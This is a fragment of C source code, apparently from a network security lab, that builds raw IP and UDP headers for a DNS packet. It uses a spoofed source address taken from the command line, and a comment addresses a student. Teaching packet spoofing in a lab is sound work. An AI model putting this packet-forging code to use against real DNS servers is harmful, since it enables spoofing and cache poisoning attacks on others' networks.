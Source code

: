 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{verbatim}
    ip->iph_ihl = 5;
    ip->iph_ver = 4;
    ip->iph_tos = 0; // Low delay

    unsigned short int packetLength =(sizeof(struct ipheader) + sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)); // length + dataEnd_size == UDP_payload_size

    ip->iph_len=htons(packetLength);
    ip->iph_ident = htons(rand()); // we give a random number for the identification
    ip->iph_ttl = 110; // hops
    ip->iph_protocol = 17; // UDP

    // Source IP address, spoofed address is used here!!!

    ip->iph_sourceip = inet_addr(argv[1]);

    // The destination IP address

    ip->iph_destip = inet_addr(argv[2]);


    // Fabricate the UDP header. Source port number, redundant

    udp->udph_srcport = htons(33333);  // Random source port number, lower numbers may be reserved

    // Destination port number

    udp->udph_destport = htons(53);
    udp->udph_len = htons(sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)); // udp_header_size + udp_payload_size

    // Calculate the checksum for integrity//

    ip->iph_chksum = csum((unsigned short *)buffer, sizeof(struct ipheader) + sizeof(struct udpheader));


    udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader));
    /*******************************************************************************
    Tips
    The checksum is quite important to pass the checking integrity. You need to study the algorithm and what part should be taken into the calculation.
    !!!!!If you change anything related to the calculation of the checksum, you need to re-calculate it or the packet will be dropped.!!!!!
    Here things became easier since I wrote the checksum function for you. You don't need to spend your time writing the right checksum function.
    Just for knowledge purpose, remember the second parameter
    for UDP checksum:
    ipheader_size + udpheader_size + udpData_size
    for IP checksum:
    ipheader_size + udpheader_size
    *********************************************************************************/


\end{verbatim}
\end{document}
